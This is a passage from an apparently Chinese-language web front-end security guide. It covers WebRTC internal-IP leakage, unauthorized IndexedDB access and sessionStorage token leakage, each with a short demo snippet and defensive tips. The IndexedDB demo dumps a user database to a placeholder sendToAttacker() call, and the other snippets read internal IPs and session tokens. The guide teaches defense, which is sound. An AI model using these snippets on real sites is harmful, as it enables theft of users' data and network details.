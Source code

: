 - • 密钥长度至少256位  
  
### 19、 WebRTC IP泄露  
  
**漏洞验证**  
：  
```
const pc = newRTCPeerConnection()
pc.createDataChannel('')
pc.createOffer().then(offer => pc.setLocalDescription(offer))
pc.onicecandidate = e => {
  console.log(e.candidate.address) // 泄露内网IP
}
```  
  
**防护方案**  
：  
- • 使用代理服务器  
  
- • 配置ICE限制策略  
  
### 20、IndexedDB 越权访问  
  
**攻击演示**  
：  
```
const request = indexedDB.open('UserDB', 1)
request.onsuccess = (e) => {
  const db = e.target.result
  const tx = db.transaction('users')
  const store = tx.objectStore('users')
  store.getAll().onsuccess = e =>sendToAttacker(e.target.result)
}
```  
  
**防御措施**  
：  
- • 实施同源策略检查  
  
- • 加密敏感字段  
  
### 21、 sessionStorage跨标签页泄露  
  
**攻击场景**  
：  
```
// 标签页A
sessionStorage.setItem('token', 'secret123')

// 恶意标签页B通过opener访问
window.opener.sessionStorage.getItem('token')
```  
  
**防御方案**  
：  
- • 避免在sessionStorage存储敏感信息  
  